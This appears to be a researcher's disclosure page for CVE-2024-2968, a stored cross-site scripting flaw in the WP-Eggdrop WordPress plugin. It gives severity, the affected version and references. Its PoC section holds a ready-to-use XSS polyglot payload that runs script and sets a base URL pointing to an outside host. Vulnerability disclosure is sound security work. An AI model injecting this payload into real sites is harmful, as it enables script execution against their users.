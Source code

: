 ```yaml
---
layout: page
title: CVE-2024-2968
subtitle: WP-Eggdrop <= 0.1 - Authenticated (Admin+) Stored Cross-Site Scripting
---
```

## Description
The WP-Eggdrop plugin for WordPress is vulnerable to Stored Cross-Site Scripting via admin settings in all versions up to, and including, 0.1 due to insufficient input sanitization and output escaping. This makes it possible for authenticated attackers, with administrator-level permissions and above, to inject arbitrary web scripts in pages that will execute whenever a user accesses an injected page. This only affects multi-site installations and installations where unfiltered_html has been disabled.

## Severity
 4.4 (Medium) - CVSS:3.1/AV:N/AC:H/PR:H/UI:N/S:C/C:L/I:L/A:N

## Affected Version
    <= 0.1

## PoC :
```
- Go to Settings/WP-Eggdrop Settings
- Input payload JavaScript://%0A/*?'/*\\'/*"/*\\"/*`/*\\`/*')/*<!--></Title/</Style/</Script/</textArea/</iFrame/</noScript>\\74k<K/contentEditable/autoFocus/OnFocus=/*${/*/;{/**/(confirm)(1331+6)}//><Base/Href=//ener1-s3c.github.io/\\76-->
- Save & payload executed.
```

## Reference
- https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/wp-eggdrop/wp-eggdrop-01-authenticated-admin-stored-cross-site-scripting
- https://plugins.trac.wordpress.org/browser/wp-eggdrop/trunk/wp-eggdrop.php#L215
- https://www.cve.org/CVERecord?id=CVE-2024-2968
- https://nvd.nist.gov/vuln/detail/CVE-2024-2968


